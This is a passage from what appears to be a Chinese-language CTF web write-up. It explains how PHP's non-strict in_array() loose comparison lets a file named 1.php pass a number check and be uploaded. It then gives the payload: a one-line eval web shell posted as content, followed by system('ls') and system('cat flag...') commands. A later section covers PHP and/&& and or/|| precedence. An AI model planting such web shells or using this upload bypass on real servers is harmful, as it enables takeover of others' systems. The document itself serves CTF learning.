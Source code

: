 ```php
bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )
```

在 `$haystack`中搜索` $needle`，如果第三个参数` $strict`的值为 TRUE，则 in_array()函数会进行强检查，检查 `$needle`的类型是否和 `$haystack`中的相同。如果找到 `$haystack`，则返回 TRUE，否则返回 FALSE。

很明显，这题使用in_array()函数时并没有设置第三个参数为TRUE，所以此时是==的弱类型比较。（弱比较字符串 1.php 与 1 返回 true）

**绕过方法:**
传入n=1.php。（这道题，每次生成随机数都包含 1，所以 1 在数组中的可能最大）因为PHP在使用 in_array()函数判断时，会将 1.php强制转换成数字1，而数字1在 range(1,24)数组中，当随机生成的数字正好是1时绕过 in_array()函数判断，导致任意文件上传漏洞。

**payload:**

```
n=1.php
post:content=<?php eval($_POST[1]);?>
```

多试几次，直到不报错的那一次，说明成功传入一句话。

然后访问https://url/1.php，再post传入1=system('ls');

再post: 1=system('cat flag***.php')；

然后在网页源码中看到flag





### 8、and与&& 、or与||的区别

**（Web 100）**

> 以下是对php中OR与||、AND与&&的区别进行了详细的总结介绍

本身没有区别，习惯问题 ，但是有时候牵涉到运算符优先级的问题，结果会不同。

赋值运算的优先级比AND和OR的高，所以先赋值；比&&和||的低，所以逻辑运算符先执行，先逻辑运算，再赋值

例如：

```php
<?php
$p = 6 or 0;
var_dump($p);//int(6)

$p = 6 || 0;
var_dump($p);//bool(true)

$p = 6 and 0;
var_dump($p); //int(6) 

$p = 6 && 0;
var_dump($p); //bool(false) 
?>
```

```php
<?php
$bA = true;
$bB = false;
$b1 = $bA and $bB;
$b2 = $bA && $bB;
var_dump($b1); // $b1 = true
var_dump($b2); // $b2 = false
$bA = false;
$bB = true;
$b3 = $bA or $bB;
$b4 = $bA || $bB;
var_dump($b3); // $b3 = false
var_dump($b4); // $b4 = true
```